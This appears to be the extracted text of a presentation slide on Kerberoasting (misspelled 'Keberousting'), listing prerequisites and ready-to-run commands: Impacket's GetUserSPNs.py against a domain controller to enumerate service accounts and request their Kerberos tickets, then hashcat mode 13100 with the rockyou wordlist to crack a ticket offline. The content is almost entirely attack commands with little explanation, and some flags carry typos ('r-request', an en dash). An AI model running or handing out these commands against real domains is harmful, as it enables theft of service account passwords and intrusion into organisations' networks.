

# Keberousting
Prerequisites
- account's cleartext password (or NTLM hash)
https://www.youtube.com/watch?v=PUyhlN-E5MU

- Listing SPN account

- Cracking the Ticket Offline
$ GetUserSPNs.py -dc-ip 172.16.0.10 HOGE.com/piyo
or
$ GetUserSPNs.py -dc-ip 172.16.0.10 HOGE.com/piyo r-request
or
$ GetUserSPNs.py -dc-ip 172.16.0.10 HOGE.com/piyo –request-user bob

$ hashcat -m 13100 bob_tgs /usr/share/wordlists/rockyou.txt